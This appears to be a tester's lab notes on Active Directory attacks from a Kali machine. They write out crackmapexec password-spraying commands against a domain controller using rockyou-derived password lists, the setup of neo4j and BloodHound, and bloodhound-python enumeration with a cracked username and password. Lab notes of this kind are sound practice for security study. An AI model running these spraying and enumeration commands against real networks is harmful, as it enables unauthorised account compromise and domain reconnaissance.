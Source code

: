 # Working with a Kali machine

- Used crackmapexec to crack user:pass combinations for low level users on the DC from files we created.

  added random passwords from rockyou.txt into passwords.txt\
  added random users from the user.txt file

- To run properly crackmapexec command had to configure the /etc/hosts file and the /etc/resolve.conf to add the DC address to it
  crackmapexec smb <ip> -u users.txt -p passwords.txt

  Continue enumerating even when the user:pass combination has been found for a user\
  crackmapexec smb 192.168.8.155 -u users.txt -p passwords.txt --continue-on-success

- Getting ready for bloodhound installing with neo4j  
  sudo echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list\
  sudo apt-get update\
  wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -\necho 'deb https://debian.neo4j.com stable latest' >     /etc/apt/sources.list.d/neo4j.list\nsudo apt-get update\
  sudo apt-get install apt-transport-https\
  sudo apt-get install neo4j

  Access the gui (localhost:7474) and changed the default password for neo4j


- Installed bloodhound latest release from https://github.com/BloodHoundAD/BloodHound/releases
  ./BloodHound\

  ...Starting bloodhound....
  
- Sharphound python version from github https://github.com/fox-it/BloodHound.py
  
  pip install bloodhound\
  added bloodhound-python to the $PATH\
  /home/user/.local/bin\
  subl ~/.zshrc\
  source ~/.zshrc\
  added /home/user/.local/bin to the file
  
  Running the command with the default username and password we had found with crackmapexec earlier\
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com\
  
  To get All\
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com -c All

- the output generates multiple .json files we can use to upload into the bloodhound GUI and analyze the AD users,groups, and other parameters
- Installed bloodhound, neo4j, and a python version of sharphound (bloodhound-python)  
